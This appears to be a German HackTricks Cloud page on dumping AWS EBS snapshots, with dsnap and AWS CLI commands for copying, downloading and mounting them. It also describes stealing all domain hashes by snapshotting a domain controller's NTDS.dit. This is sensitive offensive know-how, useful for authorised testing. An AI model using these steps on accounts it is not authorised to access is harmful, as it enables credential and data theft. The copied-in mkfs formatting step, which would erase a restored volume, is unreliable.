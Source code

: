 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Überprüfen eines Snapshots lokal
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Hinweis** dass `dsnap` es Ihnen nicht erlaubt, öffentliche Snapshots herunterzuladen. Um dies zu umgehen, können Sie eine Kopie des Snapshots in Ihrem persönlichen Konto erstellen und diesen herunterladen:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Für weitere Informationen zu dieser Technik siehe die ursprüngliche Forschung unter [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Du kannst dies mit Pacu unter Verwendung des Moduls [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) tun.

## Überprüfen eines Snapshots in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Mounten Sie es in einer EC2-VM unter Ihrer Kontrolle** (es muss sich in derselben Region wie die Kopie des Backups befinden):

Schritt 1: Ein neues Volume Ihrer bevorzugten Größe und Art ist zu erstellen, indem Sie zu EC2 –> Volumes gehen.

Um diese Aktion auszuführen, folgen Sie diesen Befehlen:

* Erstellen Sie ein EBS-Volume, um es an die EC2-Instanz anzuhängen.
* Stellen Sie sicher, dass das EBS-Volume und die Instanz in derselben Zone sind.

Schritt 2: Die Option "Volume anhängen" ist auszuwählen, indem Sie mit der rechten Maustaste auf das erstellte Volume klicken.

Schritt 3: Die Instanz aus dem Textfeld der Instanz ist auszuwählen.

Um diese Aktion auszuführen, verwenden Sie den folgenden Befehl:

* Hängen Sie das EBS-Volume an.

Schritt 4: Melden Sie sich bei der EC2-Instanz an und listen Sie die verfügbaren Festplatten mit dem Befehl `lsblk` auf.

Schritt 5: Überprüfen Sie, ob das Volume Daten enthält, indem Sie den Befehl `sudo file -s /dev/xvdf` verwenden.

Wenn die Ausgabe des obigen Befehls "/dev/xvdf: data" anzeigt, bedeutet dies, dass das Volume leer ist.

Schritt 6: Formatieren Sie das Volume mit dem ext4-Dateisystem, indem Sie den Befehl `sudo mkfs -t ext4 /dev/xvdf` verwenden. Alternativ können Sie auch das xfs-Format verwenden, indem Sie den Befehl `sudo mkfs -t xfs /dev/xvdf` verwenden. Bitte beachten Sie, dass Sie entweder ext4 oder xfs verwenden sollten.

Schritt 7: Erstellen Sie ein Verzeichnis Ihrer Wahl, um das neue ext4-Volume zu mounten. Zum Beispiel können Sie den Namen "newvolume" verwenden.

Um diese Aktion auszuführen, verwenden Sie den Befehl `sudo mkdir /newvolume`.

Schritt 8: Mounten Sie das Volume im Verzeichnis "newvolume" mit dem Befehl `sudo mount /dev/xvdf /newvolume/`.

Schritt 9: Wechseln Sie in das Verzeichnis "newvolume" und überprüfen Sie den Speicherplatz, um das Volume-Mount zu validieren.

Um diese Aktion auszuführen, verwenden Sie die folgenden Befehle:

* Wechseln Sie in das Verzeichnis `/newvolume`.
* Überprüfen Sie den Speicherplatz mit dem Befehl `df -h .`. Die Ausgabe dieses Befehls sollte den freien Speicherplatz im Verzeichnis "newvolume" anzeigen.

Sie können dies mit Pacu unter Verwendung des Moduls `ebs__explore_snapshots` tun.

## Überprüfen eines Snapshots in AWS (unter Verwendung von cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Schattenkopie

Jeder AWS-Benutzer, der die Berechtigung **`EC2:CreateSnapshot`** besitzt, kann die Hashes aller Domänenbenutzer stehlen, indem er eine **Snapshot des Domänencontrollers** erstellt, ihn an eine Instanz, die er kontrolliert, anbindet und die **NTDS.dit und SYSTEM** Registrierungs-Hive-Datei für die Verwendung mit Impacket's secretsdump-Projekt exportiert.

Sie können dieses Tool verwenden, um den Angriff zu automatisieren: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oder Sie könnten eine der vorherigen Techniken nach dem Erstellen eines Snapshots verwenden.

## Referenzen

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
